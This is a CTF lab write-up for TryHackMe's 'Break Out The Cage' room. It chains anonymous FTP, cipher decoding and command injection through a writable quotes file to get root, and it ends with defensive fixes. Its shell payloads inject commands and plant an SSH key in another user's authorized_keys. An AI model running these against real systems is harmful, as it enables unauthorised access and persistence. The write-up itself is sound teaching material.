










# TryHackMe — Break Out The Cage Writeup

> **Safe English Version**  
> This writeup is written for a private TryHackMe CTF lab. The goal is education: Linux enumeration, clue analysis, permission review, and understanding root cause. Sensitive values such as passwords and flags are intentionally shown as `<REDACTED>` so the writeup remains safe to share.

---

## TL;DR Flow

Think of the target machine like a funny little house:

- **Web** = the living room. Looks interesting, but mostly decoration.
- **FTP** = the backyard storage room. It was accidentally left open with anonymous login.
- **SSH** = the bedroom door. It needs a password.
- **Broadcast quotes** = an automated speaker that reads notes from a file.
- **Email backup** = the final drawer full of clues.

Final route:

```text
Nmap recon
  ↓
Anonymous FTP → dad_tasks
  ↓
Base64 decode + Vigenere key: namelesstwo
  ↓
Weston's password
  ↓
SSH as weston
  ↓
Find the automated quote broadcaster
  ↓
Command injection via writable .quotes file
  ↓
Pivot to user cage using SSH key access
  ↓
Read Super_Duper_Checklist → user flag
  ↓
Read email_backup
  ↓
Vigenere decode note with key: face
  ↓
Root password
  ↓
su - root
  ↓
Read root email_backup → root flag
```

---

## Important Visual References

Only the useful screenshots are included. Images containing final unredacted passwords or flags were avoided or redacted.

### 1. Room Overview



### 2. Static Nicholas Cage Web Page



### 3. Recon and Anonymous FTP Clue



### 4. Decoding `dad_tasks` in CyberChef



### 5. Quote Script Root Cause



### 6. Stable SSH Access as `cage`



### 7. User Flag Location, Redacted



### 8. Email Clue for Root Stage



### 9. Vigenere Decode with Key `face`, Sensitive Output Redacted



### 10. Root Email Proof, Flag Redacted



---

# 1. Recon: Finding the Doors

The first step was service discovery.

```bash
nmap -sC -sV <TARGET_IP>
```

Important results:

```text
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1
80/tcp open  http    Apache httpd 2.4.29
```

Simple interpretation:

| Port | Everyday Analogy | Action |
|---|---|---|
| 80 HTTP | Living room / website | Check the page |
| 21 FTP | Storage room | Check anonymous login |
| 22 SSH | Locked bedroom door | Needs credentials |

The web page looked fun, but it was static. There was no login form, no obvious dynamic endpoint, and nothing interactive enough to become the main route.

**Checkpoint:** do not get stuck staring at the website. The bigger clue is that FTP allows anonymous access.

---

# 2. Anonymous FTP: The Open Storage Room

Login to FTP:

```bash
ftp <TARGET_IP>
```

Use:

```text
username: anonymous
password: anonymous
```

Then list and download the available file:

```ftp
ls
get dad_tasks
bye
```

The interesting file was:

```text
dad_tasks
```

At first, the content looked like a long encoded string. In CTF language, this usually means: “this is not broken; it is a puzzle.”

---

# 3. Decoding `dad_tasks`: A Two-Layer Gift Box

The `dad_tasks` file had two layers:

```text
Layer 1: Base64
Layer 2: Vigenere cipher
```

In CyberChef, use this recipe:

```text
From Base64
Vigenere Decode
Key: namelesstwo
```

The decoded output reveals Weston's SSH password.

> Safe note: the real password is not written here. Keep it in your private lab notes or enter it directly into TryHackMe.

---

# 4. SSH as `weston`

After obtaining the password, log in with SSH:

```bash
ssh weston@<TARGET_IP>
```

Basic checks:

```bash
whoami
id
pwd
ls -la
ls -la /home
```

Two users are visible:

```text
/home/weston
/home/cage
```

However, `weston` cannot simply enter `/home/cage`. That means we need another path.

---

# 5. The Broadcast Clue: The Noisy Speaker

While logged in as `weston`, broadcast messages appear periodically:

```text
Broadcast message from cage@national-treasure (...)
<random Nicholas Cage quote>
```

This is a huge clue.

Why? Because the message comes from user `cage`. That suggests an automated process is running as `cage` and sending quotes to all terminals.

Search for related scripts and files:

```bash
find /opt /var/www /home/weston -maxdepth 5 -type f 2>/dev/null | grep -Ei 'dad|cage|quote|task|script'
```

Interesting results:

```text
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```

---

# 6. Root Cause: Writable Input + `os.system()`

Check permissions:

```bash
ls -la /opt/.dads_scripts
ls -la /opt/.dads_scripts/.files
```

Check whether the quote file is writable:

```bash
test -w /opt/.dads_scripts/.files/.quotes && echo "WRITABLE" || echo "NOT WRITABLE"
```

The result confirms that the file is writable by our current context.

Read the script:

```bash
sed -n '1,200p' /opt/.dads_scripts/spread_the_quotes.py
```

Core logic:

```python
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

The important part is:

```python
os.system("wall " + quote)
```

Easy analogy:

A robot speaker is supposed to read a sentence from a piece of paper.

If the paper says:

```text
Hello everyone
```

The robot runs:

```text
wall Hello everyone
```

But if the paper contains shell control characters, the shell may interpret extra instructions. That means the “quote” is not just text anymore; it can influence what the shell runs.

The root cause is the combination of three things:

```text
weston can modify .quotes
+ a process running as cage reads .quotes
+ the script passes that input into os.system()
= command injection path from weston to cage
```

---

# 7. Safe Validation: Who Runs the Script?

Before doing any pivot, validate the execution context.

Back up the quote file:

```bash
cp /opt/.dads_scripts/.files/.quotes /tmp/quotes.backup
```

Use a harmless validation step that writes the process identity into `/tmp`:

```bash
echo 'hello_from_weston; id > /tmp/cage_check' > /opt/.dads_scripts/.files/.quotes
```

Wait for the automated broadcaster to run, then check:

```bash
cat /tmp/cage_check
```

The output confirms that the command ran as user `cage`.

**Important correction:** this is not a reverse shell. This is **command injection used for user pivoting**.

---

# 8. Pivoting to `cage` with SSH Key Access

To make the access stable and clean, use SSH keys instead of relying on the broadcaster forever.

On the local machine:

```bash
ssh-keygen -t ed25519 -f ~/.ssh/thm_cage -N ""
cat ~/.ssh/thm_cage.pub
```

Copy the public key.

From the `weston` session, use the same injection route to prepare SSH access for `cage`. In a public writeup, keep the key as a placeholder:

```bash
PUB='YOUR_PUBLIC_KEY_HERE'
printf 'hello; mkdir -p /home/cage/.ssh; echo "%s" >> /home/cage/.ssh/authorized_keys; chmod 700 /home/cage/.ssh; chmod 600 /home/cage/.ssh/authorized_keys\n' "$PUB" > /opt/.dads_scripts/.files/.quotes
```

Wait for the broadcaster to execute. Then log in from the local machine:

```bash
ssh -i ~/.ssh/thm_cage cage@<TARGET_IP>
```

Once access is confirmed, restore the original quotes:

```bash
cat /tmp/quotes.backup > /opt/.dads_scripts/.files/.quotes
```

---

# 9. User Flag: Cage's Room Is Open

As `cage`:

```bash
whoami
pwd
ls -la
```

Two interesting items appear:

```text
email_backup
Super_Duper_Checklist
```

Read the checklist:

```bash
cat Super_Duper_Checklist
```

The user flag is inside this file.

> Safe writeup format: `THM{REDACTED}`

---

# 10. Intended Root Path: Emails and the `FACE` Clue

Move into the email backup folder:

```bash
cd ~/email_backup
ls -la
```

Read each email:

```bash
for f in email_*; do
  echo "===== $f ====="
  cat "$f"
  echo
done
```

Two important clues appear:

1. Sean's username is hinted to be `root`.
2. There is a strange note:

```text
haiinspsyanileph
```

The email repeatedly emphasizes the word:

```text
FACE
```

Since the room already used Vigenere earlier, the same pattern is worth trying again.

CyberChef recipe:

```text
Vigenere Decode
Key: face
Input: haiinspsyanileph
```

The decoded output gives the root password.

> Safe note: the decoded password is intentionally redacted.

---

# 11. Root and Final Flag

Use the decoded value:

```bash
su - root
```

After becoming root:

```bash
whoami
cd /root
ls -la
```

The root email backup contains the final flag:

```bash
cd /root/email_backup
ls
cat email_*
```

> Safe writeup format: `THM{REDACTED}`

---

# Key Lessons

## 1. Do not tunnel-vision on the website

The web page looked cool, but it was mostly decoration. FTP was the actual starting point.

## 2. Anonymous FTP is always worth checking

If anonymous login is enabled, grab and inspect every readable file. Tiny files often contain huge clues.

## 3. Patterns repeat in CTFs

The first credential used:

```text
Base64 + Vigenere
```

The root stage reused Vigenere with a different key. Once a room teaches you a trick, keep that trick in your mental toolbox.

## 4. Broadcast messages are not random noise

A message appearing from another user means a process exists somewhere. Processes running as another user are worth investigating carefully.

## 5. The bug is the combination

No single issue alone tells the whole story. The dangerous combination was:

```text
writable input
+ higher-privileged scheduled/automated process
+ unsafe shell execution
```

## 6. Correct terminology matters

This was not a reverse shell. The better name is:

```text
Command injection → user pivot
```

---

# Defensive Takeaways

If we were fixing this system:

1. Do not use `os.system()` with user-controlled input.
2. Prefer `subprocess.run()` with argument lists and `shell=False`.
3. Do not let lower-privileged users modify input files consumed by another user's process.
4. Restrict `.quotes` so only the owner can write it.
5. Audit cron jobs and automated scripts that run under different users.

Safer concept:

```python
import subprocess

subprocess.run(["wall", quote], shell=False)
```

This prevents characters such as `;` from becoming shell command separators.

---

# Closing Thoughts

This room is fun because it feels like reading a weird diary, opening a secret note, and discovering a robot speaker that trusts paper too much.

Main lesson:

```text
Patient enumeration + clue reading + permission awareness = CTF progress
```

You do not always need a complicated exploit. Sometimes the key questions are:

> Who can write this file?  
> Who reads this file?  
> Does the input become plain text, or does it reach a shell?

Once those questions are answered, the path becomes clear.
